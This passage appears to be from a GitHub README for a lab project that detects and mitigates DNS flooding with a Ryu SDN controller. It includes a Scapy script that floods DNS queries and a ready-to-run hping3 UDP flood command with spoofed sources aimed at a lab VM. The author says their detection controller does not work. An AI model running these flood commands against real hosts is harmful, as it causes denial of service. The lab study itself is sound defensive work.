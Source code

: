 websites = ["www.google.com", "www.yahoo.com", "www.facebook.com", "www.fit.edu", "www.example.com"]

for i in range(packet_count):
    website = random.choice(websites)
    packet = IP(dst=target_ip) / UDP(dport=target_port) / DNS(rd=1, qd=DNSQR(qname=website))
    send(packet, verbose=False)

for _ in range(packet_count):
    threading.Thread(target=send_packet).start()
```
Run the python using this command: 

``` $ sudo python3 dnspython.py ```

This should be performing DNS flooding attack to the target VM.

But, I did a little research and got to know about this tool called "hping3". I heard its super powerful. So, I gave it a try.

``` $ sudo hping3 --udp -c 10000 -d 120 -p 53 --flood --rand-source 192.168.233.11 ```

Yes, it is that simple and powerful than scapy. 

Then, comes the main part. The Controller. You should create a python script that tells the controller to monitor for the traffic in the both Ubuntu VM's and mitigate the attack based on flow mentioned in the code. 

I have attached the python script in the repo. Please try to use as an reference, as it would not work as expected. 

``` $ sudo ryu-manager RYU4.py ```

This is how the expected output should be:

```
loading app RYU4.py
loading app ryu.controller.ofp_handler
instantiating app RYU4.py of DNSController
Initializing DNSController...
instantiating app ryu.controller.ofp_handler of OFPHandler
No attack detected.
No attack detected.
Received switch features event...
No attack detected.
No attack detected.
No attack detected.
```
In this case, even though the attack is performed, the controller is not able to detect and mitigate it. That is where my flaw in the code lies on. 








